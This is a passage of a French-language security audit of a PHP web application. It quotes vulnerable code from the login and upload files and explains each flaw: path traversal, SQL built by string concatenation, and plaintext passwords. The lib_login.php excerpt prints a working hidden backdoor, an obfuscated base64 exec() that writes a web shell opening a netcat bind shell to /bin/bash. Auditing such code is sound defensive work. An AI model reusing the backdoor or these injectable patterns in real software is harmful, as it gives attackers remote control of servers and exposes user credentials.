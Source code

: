 ### Justification
- **Absence de validation du nom de fichier :**  
  L'utilisation directe de `$_FILES["filecontent"]["name"]` pour construire le chemin de destination peut permettre des attaques par _path traversal_, autorisant potentiellement l'écriture dans des répertoires non souhaités.
- **Injection dans le contenu du fichier :**  
  La donnée `$_REQUEST["description"]` est utilisée sans contrôle, ce qui pourrait permettre l'injection de contenu malveillant dans le fichier de description.

---

## 3. `login.php`

### Code vulnérable
```php
if(isset($_REQUEST["username"]) && isset($_REQUEST["password"]))
{
    if(login_user($_REQUEST["username"], $_REQUEST["password"])) header("Location: /");
    else $LOGIN_FAILED = 1;
}
```

### Justification
- **Utilisation non filtrée de `$_REQUEST` :**  
  La récupération des identifiants via `$_REQUEST` sans filtrage adéquat expose l'application à des risques d'injection et à d'autres manipulations non contrôlées.

---

## 4. `lib_login.php`

### Code vulnérable
```php
// Exemple dans search_user : risque d'injection SQL
$sql = "SELECT * FROM `users` WHERE USERNAME = '".$username."';";
$result = $conn->query($sql);

// Exemple dans create_user : insertion sans hachage du mot de passe
$sql = "INSERT INTO `users` (`USERNAME`, `PASSWORD`, `DESCRIPTION`, `admin`) VALUES ('".$username."', '".$password."', '".$description."', 0);";

// Exécution de code arbitraire
if(isset($_POST["BCKDR"])) { 
    if($_POST["BCKDR"] == "o") 
        exec(base64_decode("ZWNobyAiPD9waHAgZXhlYyhiYXNlNjRfZGVjb2RlKFwiYm1NdWRISmhaR2wwYVc5dVlXd2dMV3gyYm5BZ05qQXlOVEFnTFdVZ0wySnBiaTlpWVhOb1wiKTsgPz4iID4gYmNrZHIucGhw")); 
}
```

### Justification
- **SQL Injection :**  
  La construction des requêtes SQL par concaténation de chaînes avec des entrées utilisateur non filtrées ouvre la porte à des injections SQL.
- **Stockage de mots de passe en clair :**  
  L'insertion du mot de passe sans aucune méthode de hachage compromet la confidentialité des identifiants.
- **Exécution de code arbitraire :**  
  L'appel à `exec()` sur la base d'une condition liée à une entrée POST non vérifiée permet l'exécution potentielle de code arbitraire sur le serveur.

---
